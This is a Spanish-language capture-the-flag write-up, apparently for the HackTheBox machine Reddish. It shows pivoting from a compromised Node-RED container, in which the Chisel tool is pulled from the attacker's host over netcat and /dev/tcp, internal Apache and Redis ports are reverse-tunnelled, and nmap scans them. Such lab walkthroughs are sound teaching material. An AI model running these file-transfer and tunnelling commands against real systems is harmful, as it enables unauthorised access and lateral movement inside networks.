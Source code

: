 # Chisel ~ PortForwarding
- Uso de `Chisel` para tunelizar los puertos de esos dos Host en nuestra maquina `kali` como `localhost: 127.0.0.1` 
- Hacemos un `Git Clone` a este repositorio[https://github.com/jpillora/chisel](url)

Como nos compartimos el `Chisel`? 
Procedemos a hacer lo siguiente para compartirnoslo con `NETCAT`

```bash
# nc -nlvp 444 < chisel
listening on [any] 444 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.94] 34176

# Comprobacion
# md5sum chisel                                                                                                                                                                 
30746509fdce4adf32a5cd4e30a13327  chisel
```
En la maquina Noder-RED:
```bash
root@nodered:/node-red# cat > chisel < /dev/tcp/10.10.14.12/444
root@nodered:/node-red# md5sum chisel 
30746509fdce4adf32a5cd4e30a13327  chisel
```
El Archivo se a pasado correctamente asique procedemos a darle permisos de Ejecucion para Posteriormente montarme un `reverse server` con `chisel` para tunelizar los puertos que desde la `Maquina Node-RED` si que llegamos a nuestro `Kali Atacante` atraves de la maquina `Node-RED`
- En nuestro Kali - Uso de `chisel`:
```bash
# ./chisel server --reverse -p 1234                                                                                                                                       1 ⚙
2021/06/15 11:02:34 server: Reverse tunnelling enabled
2021/06/15 11:02:34 server: Fingerprint ZTFw97tFy2QFC630TVcPZtloK/mbIKPVzvRsz8Usaxw=
2021/06/15 11:02:34 server: Listening on http://0.0.0.0:1234
2021/06/15 11:06:56 server: session#1: tun: proxy#R:127.0.0.1:80=>172.18.0.1:80: Listening
2021/06/15 11:06:56 server: session#1: tun: proxy#R:127.0.0.1:6379=>172.18.0.1:6379: Listening
``` 
- En la maquina `Node-RED` uso de `chisel`:
```bash
root@nodered:/tmp# ./chisel client 10.10.14.12:1234 R:127.0.0.1:80:172.19.0.2:80 R:127.0.0.1:6379:172.19.0.3:6379
2021/06/15 09:06:54 client: Connecting to ws://10.10.14.12:1234
2021/06/15 09:06:55 client: Connected (Latency 41.53419ms)
```
# Uso de Nmap a nivel local
Ahora que ya tenemos accesibles los puertos con el `Remote PortForwarding` hacemos un scaneo con nmap sobre estos puertos pàra ver la Version y Servicios a nivel de localhost
```bash
# nmap -sC -sV -p80,6379 127.0.0.1                                                                                                                                      130 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-15 11:41 CEST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000026s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Reddish
6379/tcp open  redis   Redis key-value store 4.0.9
```
